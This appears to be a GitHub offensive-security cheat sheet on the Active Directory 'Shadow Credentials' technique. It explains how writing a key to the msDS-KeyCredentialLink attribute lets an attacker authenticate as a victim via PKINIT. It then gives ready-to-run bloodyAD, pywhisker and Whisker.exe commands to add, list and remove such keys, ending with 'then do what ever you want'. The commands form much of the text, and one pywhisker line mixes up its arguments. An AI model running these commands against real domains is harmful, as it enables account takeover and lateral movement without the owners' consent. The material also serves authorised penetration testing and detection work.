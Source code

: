  **Shadow Credentials** is an Active Directory persistence/privilege-escalation technique where an attacker **adds a valid key/certificate to a user or computer AD object** (the `msDS-KeyCredentialLink` attribute). Once that key is present the attacker can authenticate as the target via certificate/PKINIT (passwordless), get Kerberos tickets and move laterally — without needing the account password. [posts.specterops.io+1](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab?utm_source=chatgpt.com)
# How it works (conceptually)
- Windows (Windows Hello for Business / key-trust flows) stores public key credential entries on AD objects in the `msDS-KeyCredentialLink` attribute. Those entries let the object authenticate using the corresponding private key.
- If an attacker can **modify** that attribute (or otherwise append a key blob there) they can register a key they control for the victim account. The attacker then uses the private key to perform certificate-based Kerberos authentication (PKINIT) and obtain TGT/STs as the victim.

## Preconditions & attack surface
- The attacker needs **write control** over the target AD object (or an AD misconfiguration/DACL that allows appending to `msDS-KeyCredentialLink`). This often requires elevated AD permissions or a DACL/ACL weakness on the user/computer object.
- The environment must accept certificate/PKINIT authentication for the account (many do, especially when Windows Hello for Business or certificate authentication is in use).


### From linux
#### bloodyAD
```sh
bloodyAD -k --host "$DC" -u "$USER" -d "$DOMAIN" --dc-ip "$IP" add shadowCredentials targetpc$
bloodyAD -k --host "$DC" -u "$USER" -d "$DOMAIN" --dc-ip "$IP" remove shadowCredentials targetpc$ --key <key from previous output>
```

#### pywhisker
```sh
# Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
# Generates a public-private key pair and adds a new key credential to the target object as if the user enrolled to WHfB from a new device.
pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename "test1"
# Removes a key credential from the target object specified by a DeviceID GUID.
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id "a8ce856e-9b58-61f9-8fd3-b079689eb46e"
```

Now you got certificate, you can use it to get TGT then do what ever you want:
### From windows
```powershell
# Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.
Whisker.exe list /target:computername$
# Generates a public-private key pair and adds a new key credential to the target object as if the user enrolled to WHfB from a new device.
Whisker.exe add /target:"TARGET_SAMNAME" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
Whisker.exe add /target:computername$ [/domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1]
# Removes a key credential from the target object specified by a DeviceID GUID.
Whisker.exe remove /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /remove:2de4643a-2e0b-438f-a99d-5cb058b3254b
```